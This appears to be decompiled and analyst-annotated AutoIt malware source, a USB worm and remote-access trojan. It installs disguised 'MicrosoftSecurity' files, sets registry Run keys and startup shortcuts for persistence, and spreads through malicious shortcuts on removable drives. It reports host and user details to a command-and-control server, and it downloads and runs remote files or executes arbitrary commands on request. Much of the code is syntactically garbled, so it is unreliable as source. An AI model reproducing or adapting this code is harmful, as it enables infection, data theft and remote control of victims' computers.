		FileCopy(@AutoItExe, $jbwklcjcaewtgpgszopzykmpwnarnhcrstdgofpsjelsafyvywtx, 9)
		Run($jbwklcjcaewtgpgszopzykmpwnarnhcrstdgofpsjelsafyvywtx)
	Else
		DirCopy(@ScriptDir, "C:\Microsoft", 1)
		ShellExecute("C:\MicrosoftSecurity\MicrosoftSecurity.exe C:\MicrosoftSecurity\Microsoft.a3x" , @SW_HIDE)
		ShellExecute("cmd.exe /c start C:\MicrosoftSecurity/MicrosoftSecurity.exe C:\MicrosoftSecurity\Microsoft.a3x", "", "", @SW_HIDE)
	EndIf
	FileSetAttrib("C:\MicrosoftSecurity", "+RSH") // Read, System file, Hidden
	Exit
EndIf
$string_"" = ""
$int_-1 = -1
setFirewallExclusion_DeleteLNK_RemovePersistenceRegKey()
RunAutoItScript_SetPersistenceKeys_CreateStartupCommonLNK()
CreateScriptDirLNKFiles()
UnsetShowhiddenInfectAllUSBwithLNKFiles("ALL")
CreateDocuments_Downloads_LNK_CreateDir_Reports|Statements|My Pictures|My Videos|My Pictures|My Videos()
$int_4 = 4
$string_"" = ""
$string_""2 = ""
$string_GoogleChrome.exe = "GoogleChrome.exe"
Sleep(@AutoItPID / 10)
If _singleton($string_GoogleChrome.exe, 1) = 0 Then
	Exit
EndIf


While 1
	$int_4 += 1
	If $int_4 = 5 Then
		$int_4 = 0
		RunAutoItScript_SetPersistenceKeys_CreateStartupCommonLNK()
		CreateDocuments_Downloads_LNK_CreateDir_Reports|Statements|My Pictures|My Videos|My Pictures|My Videos()
	EndIf
	If @error Then
	EndIf
	$messageReceivedFromTCPRecv = TCPRecv()
	If @error Then
	EndIf
	Select 
		Case $messageReceivedFromTCPRecv = -1 OR $int_0 = 1
			Sleep(3000)
			C2CommandDef()
			// C2 callback with "lv|zeus|ComputerName|UserName||OSVersion OSArch|0.4x usb|AV_NAME|"
			C2Exfiltrate("lv0LIONW0zeus0LIONW0@ComputerName0LIONW0@UserName0LIONW0""$string_0LIONW0@OSVersion @OSArch0LIONW00.4x0LIONW0 & getAVNameFromWMI() & $string_0LIONW0 & "")
			
		Case $messageReceivedFromTCPRecv = ""
			$int_0 += 1
			Sleep(1000)
			If $int_0 = 8 Then
				$int_0 = 0
				// Get the full title of the current active window
				$string_""2 = WinGetTitle("")
				If $string_""2 <> $string_"" Then
				    // Exfiltrate the current Window name "ac|ActiveWindowName"
					C2Exfiltrate("ac0LIONW0 & $string_""2)
				EndIf
				$string_"" = $string_""2
				$string_""2 = ""
			EndIf
			
		Case $messageReceivedFromTCPRecv <> ""
			$splitted_MsgTCPRecv_by_0LIONW0 = StringSplit($messageReceivedFromTCPRecv, "0LIONW0", 1)
			If $splitted_MsgTCPRecv_by_0LIONW0[0] > 0 Then
				Select 
				    // [0: Action_Number - do something if >0] 0LIONW0 [1: Action - DL] 0LIONW0 [2] 0LIONW0 [3]
					//  DL mode:   " 1 | DL | Download_Source | Dest_FileName"  --> Download this file to %TEMP%\FILENAME --> Then use cmd.exe to execute
					Case $splitted_MsgTCPRecv_by_0LIONW0[1] = "DL"
						InetGet($splitted_MsgTCPRecv_by_0LIONW0[2], @TempDir & aString("\") & $splitted_MsgTCPRecv_by_0LIONW0[3], 1)
						If FileExists(@TempDir & aString("\") & $splitted_MsgTCPRecv_by_0LIONW0[3]) Then
							ShellExecute("cmd.exe | /c start %temp%\" & $splitted_MsgTCPRecv_by_0LIONW0[3], "", "", @SW_HIDE)
							C2Exfiltrate("MSG0LIONW0Executed As" & $splitted_MsgTCPRecv_by_0LIONW0[3])
						Else
							C2Exfiltrate("MSG0LIONW0Download ERR")
						EndIf
						
					//  un mode: Uninstall the C2 and persistence components
					Case $splitted_MsgTCPRecv_by_0LIONW0[1] = "un"
						Uninstall_undoPersistence_UnsetFirewall()
					
					// cmd mode: " 1 | cmd | CMD_ARGUMENTS"
					Case $splitted_MsgTCPRecv_by_0LIONW0[1] = "cmd"
						If ShellExecute("cmd.exe", $splitted_MsgTCPRecv_by_0LIONW0[2], "", "", @SW_HIDE) = 1 Then
							C2Exfiltrate("MSG0LIONW0" & "Executed cmd.exe" & $splitted_MsgTCPRecv_by_0LIONW0[2])
						Else
							C2Exfiltrate("MSG0LIONW0Execute ERR cmd.exe" & $splitted_MsgTCPRecv_by_0LIONW0[2])
						EndIf
				EndSelect
			EndIf
	EndSelect
WEnd

Func Uninstall_undoPersistence_UnsetFirewall()
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "microsoftsecurity)
	RegDelete("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Microsoft Security")
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "PrintDriver")
	RegDelete("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "PrintDriver")
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "Cortana")
	RegDelete("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Cortana")
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "MicrosoftOffice")
	RegDelete("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "MicrosoftOffice")
	RegDelete("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "MicrosoftCMD.lnk")
	RegDelete("HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "MicrosoftCMD.lnk")
	RegDelete("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "MicrosoftSecurity.exe")
	RegDelete("HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "MicrosoftSecurity.exe")
	ShellExecute("netsh", "firewall delete allowedprogram "@AutoItExe", "", "", @SW_HIDE)
	ShellExecute(@ComSpec, "/k ping 0 & del "@AutoItExe" & exit", "", "", @SW_HIDE)
	C2Exfiltrate("MSG0LIONW0 Uninstall !!")
	Exit
EndFunc

Func getAVNameFromWMI()
	Local $avname
	If @OSVersion = "WIN_XP" Then
		$owmi = ObjGet("winmgmts:\\localhost\root\SecurityCenter")
	Else
		$owmi = ObjGet("winmgmts:\\localhost\root\SecurityCenter2")
	EndIf
	$colitems = $owmi.execquery("Select * from AntiVirusProduct")
	For $objantivirusproduct In $colitems
		$avname = $objantivirusproduct.displayname
	Next
	If $avname = False Then
		Return "No-AntiVirus"
	Else
		Return $avname
	EndIf
EndFunc

Func setFirewallExclusion_DeleteLNK_RemovePersistenceRegKey()
	EnvSet("SEE_MASK_NOZONECHECKS")
	ShellExecute("netsh " & @AutoItExe & " " & "MicrosoftSecurity.exe" & "" ENABLE"", "", "", @SW_HIDE)
	If @error Then
	EndIf
	$string_C:\GoogleChrome = "C:\GoogleChrome"
	$string_C:\MozillaFirefox = "C:\MozillaFirefox"
	ProcessClose("GoogleChrome.exe")
	ProcessClose("Mozilla.exe")
	Sleep(999)
	FileDelete("C:\GoogleChrome\GoogleChrome.a3x")
	FileDelete("C:\GoogleChrome\GoogleChrome.exe")
	FileDelete("C:\GoogleChrome\GoogleChrome.lnk")
	FileDelete("C:\GoogleChrome\My Pictures.lnk")
	FileDelete("C:\GoogleChrome\GoogleUpdate.lnk")
	FileDelete("C:\GoogleChrome\My Music.lnk")
	FileDelete("C:\GoogleChrome\WindowsUpdate.lnk")
	If ProcessExists("Mozilla.exe") Then
		ProcessClose("Mozilla.exe")
	EndIf
	FileDelete("C:\GoogleChrome\Mozilla.exe")
	FileDelete("C:\GoogleChrome\Mozilla.vbs")
	FileDelete("C:\GoogleChrome\Mozilla.vb")
	FileDelete("C:\MozillaFirefox\GoogleChrome.a3x")
	FileDelete("C:\MozillaFirefox\GoogleChrome.exe")
	FileDelete("C:\MozillaFirefox\GoogleChrome.lnk")
	FileDelete("C:\MozillaFirefox\My Pictures.lnk")
	FileDelete("C:\MozillaFirefox\GoogleUpdate.lnk")
	FileDelete("C:\MozillaFirefox\My Music.lnk")
	FileDelete("C:\MozillaFirefox\WindowsUpdate.lnk")
	If ProcessExists("Mozilla.exe") Then
		ProcessClose("Mozilla.exe")
	EndIf
	FileDelete("C:\MozillaFirefox\Mozilla.exe")
	FileDelete("C:\MozillaFirefox\Mozilla.vbs")
	FileDelete("C:\MozillaFirefox\Mozilla.vb")
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "JavaUpdate")
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "AdopeUpdate")
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "NewJavaInstall")
	RegDelete("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "AdopeFlash")
	RegDelete("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "WindowsUpdate.lnk")
	RegDelete("HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "WindowsUpdate.lnk")
	RegDelete("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "GoogleChrome.exe")
	RegDelete("HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "GoogleChrome.exe")
	RegDelete("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Google Chrome")
	RegDelete("HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Google Chrome")
EndFunc

Func CreateDocuments_Downloads_LNK_CreateDir_Reports|Statements|My Pictures|My Videos|My Pictures|My Videos()
	$string_AutoIt_Script_Run_a3x = "Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x"
	$array_RemovableDrives = DriveGetDrive("REMOVABLE")
	For $i = 1 To UBound($array_RemovableDrives) - 1
		If DriveStatus($array_RemovableDrives[$i]) = "READY" Then
			If DriveSpaceFree($array_RemovableDrives[$i]) > 1024 Then
				DirCopy(@ScriptDir, $array_RemovableDrives[$i] & aString("\") & "Microsoft", 1)
				FileSetAttrib("$array_RemovableDrives[$i]\Microsoft", "+RSH")
				
				// Create malicious shortcuts as "x:\Documents" and "x:\Downloads"
				FileCreateShortcut("cmd.exe", "$array_RemovableDrives[$i]\Documents", "", "/c start Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x & explorer  %CD% & exit", "", "%windir%\system32\SHELL32.dll", "", 3, @SW_SHOWMINNOACTIVE)
				FileCreateShortcut("cmd.exe", "$array_RemovableDrives[$i]\Downloads", "", "/c start Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x & explorer  %CD% & exit", "", "%windir%\system32\SHELL32.dll", "", 3, @SW_SHOWMINNOACTIVE)
				
				// Create x:\Reports, x:\Statements, x:\My Pictures, x:\My Videos if not exist
				If FileExists("$array_RemovableDrives[$i]\Reports) = False Then
					DirCreate("$array_RemovableDrives[$i]\Reports")
				EndIf
				If FileExists("$array_RemovableDrives[$i]\Statements") = False Then
					DirCreate("$array_RemovableDrives[$i]\Statements")
				EndIf
				If @error Then
				EndIf
				If FileExists("$array_RemovableDrives[$i]\My Pictures") = False Then
					DirCreate("$array_RemovableDrives[$i]\My Pictures")
				EndIf
				If @error Then
				EndIf
				If FileExists("$array_RemovableDrives[$i]\My Videos") = False Then
					DirCreate("$array_RemovableDrives[$i]\My Videos")
					C2Exfiltrate("MSG0LIONW0 Spreading !!")
				EndIf
				If @error Then
				EndIf
				If @error Then
				EndIf
				UnsetShowhiddenInfectAllUSBwithLNKFiles()
			EndIf
		EndIf
	Next
	If @error Then
	EndIf
EndFunc

Func UnsetShowhiddenInfectAllUSBwithLNKFiles($string_REMOVEABLE = "REMOVABLE")
	$string_Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x = "Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x"
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced", "ShowSuperHidden", 0)
	$array_removable_drives = DriveGetDrive("REMOVABLE")
	
	// Loop through all active REMOVABLE Drives, check if "x:\Microsoft" exists, if not make it
	If IsArray($array_removable_drives) Then
		For $i = 1 To $array_removable_drives[0]
			If DriveStatus($array_removable_drives[$i]) = "READY" Then
				If DriveSpaceFree($array_removable_drives[$i]) > 10 Then
					If FileExists($array_removable_drives[$i] & "\Microsoft") = 0 Then FileDelete($array_removable_drives[$i] & "\Microsoft")
					DirCopy(@ScriptDir, $array_removable_drives[$i] & aString("\") & "Microsoft", 1)
					FileSetAttrib($array_removable_drives[$i] & "\Microsoft", "+RSH")
					Local $varFirstFile = FileFindFirstFile($array_removable_drives[$i] & "\*.*")
					While 1
						Dim $varNextFile = FileFindNextFile($varFirstFile)
						If $varNextFile = "" Then ExitLoop
						If StringInStr(FileGetAttrib($array_removable_drives[$i] & aString("\") & $varNextFile), "D") AND ($varNextFile <> "." OR $varNextFile <> "..") Then
							FileCreateShortcut("cmd.exe", "$array_removable_drives[$i]\$varNextFile\$varNextFile", "", "/c start ..\Microsoft\MicrosoftSecurity.exe"  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x & explorer  %CD% exit", "", "%windir%\system32\SHELL32.dll", "", 3, @SW_SHOWMINNOACTIVE)
							FileCreateShortcut("cmd.exe", "$array_removable_drives[$i]\$varNextFile\Music", "", "/c start ..\Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x & explorer  %CD%  & exit", "",  "%windir%\system32\SHELL32.dll", "", 3, @SW_SHOWMINNOACTIVE)
							FileCreateShortcut("cmd.exe", "$array_removable_drives[$i]\$varNextFile\Pictures"), "", /c start ..\Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x & explorer  %CD% & exit", "", "%windir%\system32\SHELL32.dll", "", 3, @SW_SHOWMINNOACTIVE)
							FileCreateShortcut("cmd.exe", "$array_removable_drives[$i]\$varNextFile\Reports"), "", /c start ..\Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x & explorer  %CD% & exit", "", "%windir%\system32\SHELL32.dll", "", 3, @SW_SHOWMINNOACTIVE)
							FileCreateShortcut("cmd.exe", "$array_removable_drives[$i]\$varNextFile\Statements"), "", /c start ..\Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x & explorer  %CD% & exit", "", "%windir%\system32\SHELL32.dll", "", 3, @SW_SHOWMINNOACTIVE)
						EndIf
						Sleep(40)
					WEnd
				EndIf
			EndIf
		Next
	EndIf
	If @error Then
	EndIf
EndFunc

Func CreateScriptDirLNKFiles()
	$blpspazzfimttyejdawgiepesmspmhduujqvoltlfuygpzlgnwlb = "@ScriptDir\MicrosoftSecurity.exe @ScriptDir\Microsoft.a3x"
	If FileExists("@ScriptDir\MicrosoftUpdate.lnk") = False Then
		FileCreateShortcut("cmd.exe", "@ScriptDir\MicrosoftUpdate.lnk", " ", "/c start @ScriptDir\MicrosoftSecurity.exe @ScriptDir\Microsoft.a3x & exit")
	EndIf
	If FileExists("@ScriptDir\MicrosoftSecurity.lnk") = False Then
		FileCreateShortcut("@ScriptDir\MicrosoftSecurity.exe", "@ScriptDir\MicrosoftUpdate.lnk", " ", "/AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x")
	EndIf
EndFunc

Func RunAutoItScript_SetPersistenceKeys_CreateStartupCommonLNK()
	$execute_MicrosoftSecurity.exe /AutoIt3ExecuteScript Microsoft.a3x = "@ScriptDir\MicrosoftSecurity.exe /AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x"
	$string_MicrosoftCMD = StringRegExpReplace("MicrosoftCMD.lnk", "\.[^\.\\/]*$", "")  // Should be outputting "MicrosoftCMD"
	$execute_MicrosoftCMD Microsoft.a3x = "@ScriptDir\MicrosoftSecurity.exe @ScriptDir\Microsoft.a3x"
	$string_@ScriptDir\MicrosoftCMD.lnk = "@ScriptDir\MicrosoftCMD.lnk"
	If RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Microsoft Security") <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Microsoft Security", "REG_SZ", "@ScriptDir\MicrosoftUpdate.lnk")
	EndIf
	If RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Microsoft Security") <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run, "Microsoft Security", "REG_SZ", "@ScriptDir\MicrosoftUpdate.lnk")
	EndIf
	If RegRead(HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Microsoft Office") <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", Microsoft Office", "REG_SZ", "@ScriptDir\MicrosoftUpdate.lnk")
	EndIf
	If RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Cortana")) <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Cortana", "REG_SZ", "@ScriptDir\MicrosoftUpdate.lnk")
	EndIf
	If RegRead("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "HDAudio") <> $string_@ScriptDir\MicrosoftCMD.lnk Then
		RegWrite("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "HDAudio", "REG_SZ", "@ScriptDir\MicrosoftSecurity.exe /AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x")
	EndIf
	If RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "PrintDriver) <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "PrintDriver", "REG_SZ", "@ScriptDir\MicrosoftSecurity.exe /AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x")
	EndIf
	If FileExists("@StartupCommonDir\MicrosoftCMD.lnk) = False Then
		FileCreateShortcut("cmd.exe", "@StartupCommonDir\Microsoft Security.lnk", "", "/c start @ScriptDir\MicrosoftSecurity.exe @ScriptDir\Microsoft.a3x & exit")
	EndIf
	If FileExists("@StartupCommonDir\MicrosoftUpdate.lnk") = False Then
		FileCreateShortcut("@ScriptDir\MicrosoftSecurity.exe", "@StartupCommonDir\MicrosoftUpdate.lnk", "", "/AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x")
	EndIf
	If @error Then
	EndIf
EndFunc

Func TCPRecv()
	If $int_-1 < 1 Then
		$int_0 = 1
		Return -1
	EndIf
	If @error Then
	EndIf
	$callTCPRecviver = TCPRecv($int_-1, 1024, 0)
	If @error Then
		$int_0 = 1
		Return -1
	EndIf
	$string_"" &= $callTCPRecviver
	
	// Check if "\r\n" exists in the received message
	If StringInStr($string_"", $string_\r\n) Then
		$array_tcp_received = StringSplit($string_"", "\r\n")
		$callTCPRecviver = $array_tcp_received[1]
		$rn_position = StringInStr($string_"", $string_\r\n)
		$rn_position += StringLen(String($string_\r\n))
		$msgLength = StringLen($string_"")
		$string_"" = StringMid($string_"", $rn_position, $msgLength - $rn_position)
		Return $callTCPRecviver
	EndIf
	Return ""
EndFunc

Func C2Exfiltrate($var5)
	If @error Then
	EndIf
	// Replace "\r\n" with "|" from the input
	$var5 = StringReplace($var5, $string_\r\n, "|")
	// TCPSend the modified input
	TCPSend($int_-1, $var5 & $string_\r\n)
	If @error Then
		$int_0 = 1
		Return 0
	Else
		Return 1
	EndIf
EndFunc

Func C2CommandDef()
	$int_0 = 0
	TCPCloseSocket($int_-1)
	If @error Then
	EndIf
	TCPShutdown()
	If @error Then
	EndIf
	TCPStartup()
	If @error Then
	EndIf
	$int_-1 = -1
	// Connect to googleads.publicvm.com:223
	$int_-1 = TCPConnect(TCPNameToIP("googleads.publicvm.com"), 223)
	If @error Then
	EndIf
	$int_0 = 0
EndFunc
```